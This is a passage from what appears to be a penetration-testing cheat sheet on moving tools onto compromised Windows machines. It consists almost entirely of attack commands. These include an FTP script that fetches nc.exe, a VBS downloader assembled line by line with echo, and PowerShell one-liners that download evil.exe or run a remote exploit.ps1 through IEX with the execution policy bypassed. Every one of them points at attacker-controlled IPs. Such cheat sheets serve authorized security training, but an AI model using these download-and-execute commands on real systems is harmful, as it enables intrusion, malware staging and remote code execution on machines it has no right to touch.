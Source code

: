     C:\Users\xonork>echo mypass>> ftp.txt
    C:\Users\xonork>echo bin >> ftp.txt
    C:\Users\xonork>echo GET nc.exe >> ftp.txt
    C:\Users\xonork>echo bye >> ftp.txt
    ```
    ```cmd
    #Finally in Windows we execute the command
    C:\Users\xonork> ftp -v -n -s:ftp.txt
    ```
- VBS
  - HTTP Downloader
    ```cmd
    echo strUrl = WScript.Arguments.Item(0) > wget.vbs
    echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
    echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
    echo Err.Clear >> wget.vbs
    echo Set http = Nothing >> wget.vbs
    echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
    echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
    echo http.Open "GET", strURL, False >> wget.vbs
    echo http.Send >> wget.vbs
    echo varByteArray = http.ResponseBody >> wget.vbs
    echo Set http = Nothing >> wget.vbs
    echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
    echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
    echo strData = "" >> wget.vbs
    echo strBuffer = "" >> wget.vbs
    echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
    echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
    echo Next >> wget.vbs
    echo ts.Close >> wget.vbs
    ```
    ```cmd
    C:\Users\xonork> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
    ```
- PowerShell
  ```bash
    C:\Users\Bob> echo $storageDir = $pwd > wget.ps1
    C:\Users\Bob> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    C:\Users\Bob> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
    C:\Users\Bob> echo $file = "new-exploit.exe" >>wget.ps1
    C:\Users\Bob> echo $webclient.DownloadFile($url,$file) >>wget.ps1
    #Finally we run the downloaded script
    C:\Users\Bob> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
  ```
  ```ps1
  powershell -c "(new-object System.net.WebCLient).DownloadFile('http://X.X.X.X/wget.exe','C:\Users\xonork\Desktop\wget.exe')"
  ```
  ```ps1
   powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
  ```
  - Download and execute in PowerShell
    ```ps1
      powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.23/exploit.ps1');
    ```